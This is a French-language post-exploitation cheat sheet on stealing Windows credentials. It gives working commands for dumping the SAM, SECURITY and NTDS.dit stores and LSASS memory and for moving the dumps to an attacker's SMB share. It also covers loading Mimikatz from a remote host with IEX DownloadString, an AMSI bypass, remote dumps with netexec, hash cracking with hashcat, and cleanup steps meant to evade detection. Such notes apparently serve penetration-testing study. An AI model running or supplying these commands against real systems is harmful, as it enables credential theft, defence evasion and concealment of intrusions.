

## Extraction et exploitation des identifiants Windows

L'extraction des identifiants repose sur l'accès aux bases de données locales (**SAM**, **SECURITY**) ou à la mémoire du processus **LSASS**.



> [!danger] Privilèges SYSTEM requis
> L'accès aux fichiers **SAM**, **SECURITY**, **SYSTEM** et au processus **LSASS** nécessite des privilèges **SYSTEM**.

> [!warning] Risque de détection
> L'accès au processus **LSASS** est une activité hautement surveillée par les solutions EDR. L'utilisation de méthodes natives comme **comsvcs.dll** peut déclencher des alertes.

> [!info] WDIGEST
> La récupération de mots de passe en clair via **LSASS** nécessite que le protocole **WDIGEST** soit activé dans le registre, ce qui n'est plus le cas par défaut sur les versions récentes de Windows.

## Extraction SAM, SYSTEM et SECURITY

### Sauvegarde des hives
L'extraction des fichiers de registre s'effectue via **reg.exe** avec des privilèges élevés.

```cmd
reg.exe save hklm\SAM C:\sam.save
reg.exe save hklm\SYSTEM C:\system.save
reg.exe save hklm\SECURITY C:\security.save
```

### Transfert et dump
Le transfert s'effectue via un partage SMB temporaire.

```bash
# Machine attaquante
sudo smbserver.py -smb2support CompData /home/<user>/Documents
```

```cmd
# Machine cible
move C:\sam.save \\<ip_attaquant>\CompData
move C:\system.save \\<ip_attaquant>\CompData
move C:\security.save \\<ip_attaquant>\CompData
```

```bash
# Extraction des hashes sur l'attaquant
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

## Dump et analyse de LSASS

### Création du dump
L'utilisation de **rundll32.exe** permet de dumper la mémoire du processus.

```powershell
# Identification du PID
tasklist /svc | findstr lsass

# Création du dump
rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

### Extraction via Mimikatz en mémoire (non-fichier)
Pour éviter l'écriture sur disque, l'utilisation de Mimikatz via une session interactive ou une exécution en mémoire est privilégiée.

```powershell
# Via PowerShell (Invoke-Mimikatz)
IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

### Analyse avec Pypykatz
L'analyse du fichier dump s'effectue hors ligne sur la machine attaquante.

```bash
pypykatz lsa minidump lsass.dmp
```

## Extraction de NTDS.dit

L'extraction de la base de données **NTDS.dit** permet de récupérer les hashes de tous les utilisateurs du domaine.

```cmd
# Création d'un cliché instantané
vssadmin create shadow /for=C:

# Copie du fichier NTDS.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\NTDS\ntds.dit C:\NTDS\ntds.dit
```

## Techniques de contournement EDR/AV

### AMSI Bypass
L'AMSI (Antimalware Scan Interface) peut être neutralisé pour permettre l'exécution de scripts malveillants.

```powershell
# Exemple de bypass simple par patch mémoire
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Obfuscation
L'utilisation d'outils comme **Invoke-Obfuscation** permet de modifier la signature des scripts pour échapper à la détection statique.

## Analyse des permissions sur les fichiers récupérés
Avant toute manipulation, il est crucial de vérifier les ACLs pour s'assurer que les fichiers dumpés ne sont pas accessibles par des utilisateurs non privilégiés.

```powershell
# Vérification des permissions
icacls C:\lsass.dmp
# Suppression des accès pour les utilisateurs non autorisés
icacls C:\lsass.dmp /remove "Everyone"
```

## Utilisation de netexec (anciennement CrackMapExec)

**netexec** automatise l'extraction à distance en utilisant des identifiants valides.

```bash
# Dump SAM
netexec smb <IP> -u <user> -p <pass> --local-auth --sam

# Dump LSA
netexec smb <IP> -u <user> -p <pass> --local-auth --lsa

# Dump NTDS
netexec smb <IP> -u <user> -p <pass> --ntds
```

## Cracking de hash avec Hashcat

Le format de sortie des outils d'extraction est généralement compatible avec **hashcat**.

| Type de hash | Mode Hashcat |
| :--- | :--- |
| NTLM (SAM/LSASS) | 1000 |
| NetNTLMv2 | 5600 |
| Kerberos TGS | 13100 |

```bash
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Recherche de mots de passe dans les fichiers

La recherche manuelle ou automatisée dans les fichiers de configuration est une étape clé de la post-exploitation.

### Recherche par mots-clés
```cmd
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

### Outils d'extraction
**LaZagne** permet d'extraire les identifiants stockés par les applications (navigateurs, clients FTP, KeePass).

```powershell
lazagne.exe all
```

> [!note] Fichiers sensibles
> Surveiller particulièrement les fichiers **unattend.xml**, **web.config** et les fichiers de configuration **GPP** dans le partage **SYSVOL**. Voir les notes sur [Privilege Escalation Windows](Privilege Escalation Windows).

## Nettoyage post-exploitation
Il est impératif de supprimer toute trace de l'activité pour éviter la détection et maintenir la persistance.

```cmd
# Suppression des dumps
del C:\lsass.dmp
del C:\sam.save
del C:\system.save
del C:\security.save

# Suppression des clichés instantanés
vssadmin delete shadows /for=C: /all /quiet
```

*Notes liées : [Active Directory Enumeration](Active Directory Enumeration), [Kerberoasting & AS-REP Roasting](Kerberoasting & AS-REP Roasting), [Pass-the-Hash & Pass-the-Ticket](Pass-the-Hash & Pass-the-Ticket), [Privilege Escalation Windows](Privilege Escalation Windows).*